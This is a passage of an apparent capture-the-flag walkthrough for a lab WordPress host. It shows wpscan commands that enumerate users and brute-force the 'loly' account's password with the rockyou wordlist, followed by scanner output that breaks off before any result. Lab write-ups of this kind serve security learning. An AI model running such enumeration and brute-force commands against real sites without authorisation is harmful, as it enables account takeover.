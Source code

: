 I used wpscan to scan the website and enumerate some users using the `--enumerate u` flag.

```bash
wpscan --url http://loly.lc/wordpress --enumerate u
```

![image.png](image%204.png)

And we found the username `loly`! We can use wpscan to bruteforce the password as well. Here is the full output:

```
$ wpscan --url http://loly.lc/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://loly.lc/wordpress/ [192.168.126.121]
[+] Started: Sun May  4 09:40:14 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.10.3 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://loly.lc/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://loly.lc/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://loly.lc/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
```
